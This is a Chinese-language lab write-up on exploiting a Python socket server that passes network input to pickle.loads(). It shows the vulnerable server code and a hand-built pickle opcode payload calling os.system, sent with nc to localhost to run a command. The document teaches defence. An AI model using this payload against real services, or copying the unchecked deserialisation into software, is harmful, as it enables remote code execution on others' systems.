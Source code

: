 # Linux下漏洞分析入门

## 实验概述

### 【目的】
运行level17.py建立服务端，通过访问实现远程任意代码执行。
### 【环境】
Linux
### 【工具】

### 【原理】
序列化在计算机科学中通常有以下定义:

对同步控制而言，表示强制在同一时间内进行单一存取。
在数据储存与传送的部分是指将一个对象存储至一个储存媒介，例如档案或是记亿体缓冲等，或者透过网络传送资料时进行编码的过程，可以是字节或是XML等格式。而字节的或XML编码格式可以还原完全相等的对象。这程序被应用在不同应用程序之间传送对象，以及服务器将对象储存到档案或数据库。相反的过程又称为反序列化。
## 实验步骤

### 【步骤】
先查看服务端的python代码
```
#!/usr/bin/python

import os
import pickle
import time
import socket
import signal

signal.signal(signal.SIGCHLD, signal.SIG_IGN)

def server(skt):
  line = skt.recv(1024)

  obj = pickle.loads(line)

  for i in obj:
      clnt.send("why did you send me " + i + "?\n")

skt = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
skt.bind(('0.0.0.0', 10007))
skt.listen(10)

while True:
  clnt, addr = skt.accept()

  if(os.fork() == 0):
      clnt.send("Accepted connection from %s:%d" % (addr[0], addr[1]))
      server(clnt)
      exit(1)
```
该python脚本在端口10007上进行侦听，与服务器类似，等待连接，接受并读取我们提供的字符串，并且使用pickle.loads()来处理。
pickle 模块实现了一种算法，可以将任意一个 Python 对象转化为一系列的字节，也可以将这些字节重构为一个有相同特征的新对象。
由于字节可以被传输或者存储，因此 pickle 事实上实现了传递或者保存 Python 对象的功能。

这里的危险函数就是
```
obj = pickle.loads(line)
```
用户的输入不加检查的就被解释，我们可以利用pickle的操作码来构造shellcode。通过阅读pickle源码，可以了解到操作码如何构造。

c：引入模块
(s'<string>'：给函数提供参数
tR. :收尾

那么可以进行如下构造
```
$ cat lx
cos
system
(S'<要发送的命令>'
tR.
```

尝试连接并发送
```
$ cat lx
cos
system
(S'echo goiit > test'
tR.
$ cat lx | nc 127.0.0.1 10007
Accepted connection from 127.0.0.1:38766
^C
$ cat test
goiit

```

### 【总结】

本次实验了解了pickle的反序列化漏洞。
对于预防这种漏洞，一定要对用户的输入数据严格检查，不要信任任何用户输入。
